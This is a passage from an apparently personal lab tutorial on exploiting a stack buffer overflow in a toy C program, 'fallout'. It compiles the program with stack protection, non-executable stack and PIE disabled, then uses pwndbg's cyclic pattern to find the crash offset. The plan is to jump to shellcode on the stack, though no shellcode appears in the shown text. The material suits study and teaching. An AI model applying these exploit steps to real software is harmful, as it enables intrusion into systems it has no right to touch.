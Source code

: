 Let's compile our code and remove some protections that might prevent us from executing the shellcode.

```shell
gcc fallout.c -o fallout -fno-stack-protector -z execstack -no-pie
```

All we need is to overflow the buffer in the `fallout()` and jump to rsp which will cause us to jump to the stack containing the rest of the shellcode which we overflowed, the program will then start executing the malicious code. Let's find the offset.

```shell
pl4int3xt@archlinux ~/D/p/shellcode> pwndbg ./fallout
Reading symbols from ./fallout...

This GDB supports auto-downloading debuginfo from the following URLs:
  <https://debuginfod.archlinux.org>
Enable debuginfod for this session? (y or [n]) 
Debuginfod has been disabled.
To make this setting permanent, add 'set debuginfod enabled off' to .gdbinit.
(No debugging symbols found in ./fallout)
Cannot convert between character sets `UTF-32' and `UTF-8'
pwndbg: loaded 147 pwndbg commands and 44 shell commands. Type pwndbg [--shell | --all] [filter] for a list.
pwndbg: created $rebase, $ida GDB functions (can be used with print/break)
------- tip of the day (disable with set show-tips off) -------
GDB and Pwndbg parameters can be shown or set with show <param> and set <param> <value> GDB commands
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
pwndbg>
```

Let's run the program with the values from cyclic

```shell
pwndbg> run
Starting program: /home/pl4int3xt/Documents/pwn/shellcode/fallout 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Welcome to the fallout
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

Program received signal SIGSEGV, Segmentation fault.
```

The executable with crash and we will be able to see this as part of the REGISTERS output

```shell
*R13  0x7fffffffe728 —▸ 0x7fffffffea46 ◂— 'PWD=/home/pl4int3xt/Documents/pwn/shellcode'
*R14  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2d0 ◂— 0x0
*R15  0x403df0 —▸ 0x401120 ◂— endbr64 
*RBP  0x6161616161616169 ('iaaaaaaa')
*RSP  0x7fffffffe5f8 ◂— 'jaaaaaaakaaaaaaalaaaaaaamaaa'
*RIP  0x401189 (fallout+42) ◂— ret
```
